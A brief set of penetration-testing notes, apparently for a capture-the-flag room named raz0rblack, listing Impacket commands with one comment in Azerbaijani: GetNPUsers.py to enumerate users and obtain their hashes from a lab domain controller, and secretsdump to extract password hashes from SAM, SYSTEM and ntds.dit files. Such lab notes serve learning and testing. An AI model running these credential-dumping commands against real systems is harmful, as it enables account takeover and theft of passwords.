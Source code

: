 # Impacket


`python GetNPUsers.py raz0rblack.thm/ -usersfile /tmp/user.txt -dc-ip 10.10.161.127`  - bruteforce atak edib useri tapir hashi ile birge

#### Dumping Hashes
`impacket-secretsdump -sam sam.hive -system system.hive LOCAL`  

#### Extract the Hashes
`impacket-secretsdump -sam sam -system system -ntds ntds.dit LOCAL`
